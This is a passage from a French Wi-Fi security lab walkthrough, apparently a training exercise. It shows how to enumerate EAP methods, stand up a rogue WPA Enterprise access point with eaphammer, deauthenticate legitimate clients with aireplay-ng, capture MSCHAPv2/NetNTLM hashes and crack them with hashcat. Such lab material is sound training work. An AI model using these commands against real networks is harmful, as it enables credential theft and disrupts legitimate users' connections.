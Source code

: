 Recherchez donc toutes les méthodes supportées par le point d'accès `wifi-global` avec l'utilisateur identifié aux étapes précédentes : 

`bash ./EAP_buster.sh "wifi-global" "DOMAINE\User" wlan2`

N'hésitez pas à répéter l'opération si vous n'obtenez pas de résultat concluant.

20. Quel est la/les méthodes supportées par le point d'accès Wi-Fi ?

# WPA Enterprise (MGT) - À l'attaque !

Pour attaquer un client de confiance sur un réseau MGT, nous devons créer un RogueAP avec le même ESSID et la même configuration, mais avec un certificat auto-signé, de préférence avec les mêmes données que le vrai certificat serveur, au cas où le client vérifierait manuellement le certificat. Pour ce faire, vous pouvez utiliser `eaphammer` disponible à l'adresse : https://github.com/s0lst1c3/eaphammer

EAPHammer va permettre la création de notre RogueAP :
```
python3 ./eaphammer --cert-wizard
python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```
Et en parallèle il va falloir déconnecter les clients légitimes via leurs adresses MAC (attaque déauth), pour cela je vous donne son l'adresse MAC `64:32:A8:BA:6C:41` du premier client légitime. Enfin avec `airodump-ng` nous avons pu constater qu'il y avait deux point d'accès `wifi-corp`, il faut donc effectuer l'attaque contre les deux PA sinon le client qui se déconnecte d'un AP pourra se reconnecter au second au lieu de se connecter à notre RogueAP :

Attaque vers `wifi-corp` premier du nom : 
```
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a {@MAC_AP_WIFICORP1} wlan0mon -c 64:32:A8:BA:6C:41
```

Attaque vers `wifi-corp` second du nom (pensez à passer wlan1 en monitor car nous ne l'avons pas utilisé tel quel jusqu'à présent) :
```
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a {@MAC_AP_WIFICORP1} wlan1mon -c 64:32:A8:BA:6C:41
```

Ces deux attaques doivent être simultanées.

Si tout s'est bien passé, sur `EAPHammer` vous devriez constater le message `SSL: SSL3 alert: read (remote end reported an error):fatal:unknown CA`, en effet cela ne fonctionne pas, ce client a détecté que la CA (Certificate Authority) n'était pas reconnue de fait la connexion ne s'est pas initiée...

Répétez la même opération avec le second client légitime : `64:32:A8:07:6C:40`

Et là ! Jackpot, vous obtenez les informations d'identification MSCHAPv2, hash NETNTLM... Plus qu'à essayer de les casser, récupérez dans le log le hash de type `hashcat NETNTLM:` et stockez le dans un fichier `hashcat.5500` puis : 
```
hashcat -a 0 -m 5500 hashcat.5500 rockyou.txt --force
```
